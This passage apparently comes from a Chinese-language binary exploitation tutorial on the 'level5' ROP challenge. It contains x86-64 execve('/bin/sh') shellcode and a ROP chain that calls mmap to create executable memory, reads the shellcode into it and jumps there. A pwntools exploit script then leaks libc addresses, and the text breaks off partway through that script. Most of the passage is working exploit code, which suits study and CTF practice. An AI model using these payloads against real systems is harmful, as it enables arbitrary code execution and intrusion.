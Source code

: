 随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

```
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
               "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
               "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

 shellcode_addr = 0xbeef0000

 #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
 payload3 = "\x00"*136
 payload3 += p64(pop_rax_ret) + p64(mmap_addr)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

 #read(rdi=0, rsi=shellcode_addr, rdx=1024)
 payload3 += p64(pop_rax_ret) + p64(plt_read)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

 payload3 += p64(shellcode_addr)
```

然后我们利用_dl_runtime_resolve里的通用gadgets调用mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0),开辟一段RWX的内存在0xbeef0000处。随后我们使用read(rdi=0, rsi=shellcode_addr, rdx=1024),把我们想要执行的shellcode读入到0xbeef0000这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

**Exploit**

```
 #!/usr/bin/env python
 from pwn import *

 elf = ELF('level5')
 libc = ELF('libc.so.6')

 p = process('./level5')
 #p = remote('127.0.0.1',10001)

 got_write = elf.got['write']
 print "got_write: " + hex(got_write)
 got_read = elf.got['read']
 print "got_read: " + hex(got_read)
 plt_read = elf.symbols['read']
 print "plt_read: " + hex(plt_read)
 linker_point = 0x600ff8
 print "linker_point: " + hex(linker_point)
 got_pop_rax_ret = 0x0000000000023950
 print "got_pop_rax_ret: " + hex(got_pop_rax_ret)

 main = 0x400564

 off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
 print "off_mmap_addr: " + hex(off_mmap_addr)
 off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
 print "off_pop_rax_ret: " + hex(off_pop_rax_ret)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

```